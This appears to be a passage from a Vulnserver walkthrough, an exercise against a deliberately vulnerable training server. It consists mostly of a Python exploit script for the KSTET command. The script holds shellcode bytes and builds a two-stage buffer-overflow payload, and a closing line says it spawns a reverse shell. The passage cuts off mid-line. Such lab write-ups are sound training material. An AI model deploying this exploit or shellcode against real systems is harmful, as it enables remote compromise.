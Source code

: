 ```c
buf += b"\x84\x37\x54\xea\xf6\x9e\x6b\xc0\x9e\x7d\xf9\x8f\x5e"
buf += b"\x0b\xe2\x07\x09\x5c\xd4\x51\xdf\x70\x4f\xc8\xfd\x88"
buf += b"\x09\x33\x45\x57\xea\xba\x44\x1a\x56\x99\x56\xe2\x57"
buf += b"\xa5\x02\xba\x01\x73\xfc\x7c\xf8\x35\x56\xd7\x57\x9c"
buf += b"\x3e\xae\x9b\x1f\x38\xaf\xf1\xe9\xa4\x1e\xac\xaf\xdb"
buf += b"\xaf\x38\x38\xa4\xcd\xd8\xc7\x7f\x56\xe8\x8d\xdd\xff"
buf += b"\x61\x48\xb4\xbd\xef\x6b\x63\x81\x09\xe8\x81\x7a\xee"
buf += b"\xf0\xe0\x7f\xaa\xb6\x19\xf2\xa3\x52\x1d\xa1\xc4\x76"

payload=b""
payload+=b"\x90"*10
payload+=file_descriptor
payload+=stack_adjustment
payload+=flag_value
payload+=buffer_size
payload+=buffer_pointer
payload+=get_file_descriptor
payload+=socket_recv
payload+=b"\x90"*(70-len(payload))
payload+=b"\xaf\x11\x50\x62"
payload+=b"\x90"
payload+=b"\x83\xc0\x10"
payload+=b"\xff\xe0"

stage1=b""
stage1+=payload

stage2=b""
stage2+=buf
stage2+=b"\x90"*(1024-len(buf))

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect(("192.168.116.140", 9999))

print("[+] Sending STAGE 1 payload")
s.send((b"KSTET "+stage1))
sleep(5)

print("[+] Sending STAGE 2 payload")
s.send(stage2)

print("[+] Exploit complete.. Shell spawned")
s.close()
sys.exit(
```

After running this exploit on ```KSTET``` command, we will spawn a reverse shell

[EXPLOIT VIDEO](https://raw.githubusercontent.com/AidenPearce369/Vulnserver-Walkthrough/main/res/kstet-2-exploit.mp4)


